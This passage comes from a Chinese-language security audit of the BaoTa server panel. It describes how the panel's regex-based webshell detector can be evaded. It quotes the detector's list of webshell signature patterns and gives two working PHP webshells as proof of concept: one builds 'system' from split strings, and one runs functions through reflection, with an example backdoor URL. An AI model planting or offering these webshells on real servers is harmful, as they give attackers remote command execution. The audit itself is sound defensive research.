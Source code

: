 2. 实现文件类型白名单，限制只能读取特定类型的文件
3. 添加访问控制检查，确认用户有权限读取请求的文件
4. 记录所有文件访问操作到安全日志
5. 考虑使用基于内容的安全分析，防止敏感信息泄露

### 4.4 WebShell检测绕过

#### 漏洞4.4.1: WebShell检测规则绕过

**文件路径**: `/Users/anwu/Documents/code/security/baota/panel_extracted/panel/class/webshell_check.py`  
**行号**: 22-51  
**漏洞类型**: 安全检测绕过 (CWE-693)  
**严重程度**: 中危 (CVSS 6.8)

**漏洞代码**:
```python
__rule = ["@\\$\\_=", "eval\\(('|\")\\?>", "php_valueauto_append_file", "eval\\(gzinflate\\(",
          "eval\\(str_rot13\\(",
          "base64\\_decode\\(\\$\\_", "eval\\(gzuncompress\\(", "phpjm\\.net", "assert\\(('|\"|\\s*)\\$",
          # 其他规则省略...
          "\\$\\_=\"\""]
```

**漏洞描述**:  
WebShell检测机制依赖于静态的正则表达式模式匹配，存在多种绕过方式：
1. 现代WebShell使用变量拆分、动态执行等技术轻易逃避检测
2. 规则只针对PHP，缺少对其他语言(如ASP、JSP)的支持
3. 没有行为分析和沙箱执行机制
4. 规则库更新不及时，无法应对新型WebShell

**漏洞利用(PoC)**:
1. 使用变量拆分和动态执行绕过：
```php
<?php
// 可轻易绕过检测的WebShell
$a = 'sy';
$b = 'st';
$c = 'em';
$func = $a.$b.$c;
$arg = isset($_REQUEST['cmd']) ? $_REQUEST['cmd'] : 'whoami';
$result = $func($arg);
echo "<pre>$result</pre>";
?>
```

2. 使用变量引用和反射执行：
```php
<?php
// 另一种绕过方式
$func = $_GET['0'];
$reflection = new ReflectionFunction($func);
echo $reflection->invoke($_GET['1']);
?>
```
访问: `backdoor.php?0=system&1=id`
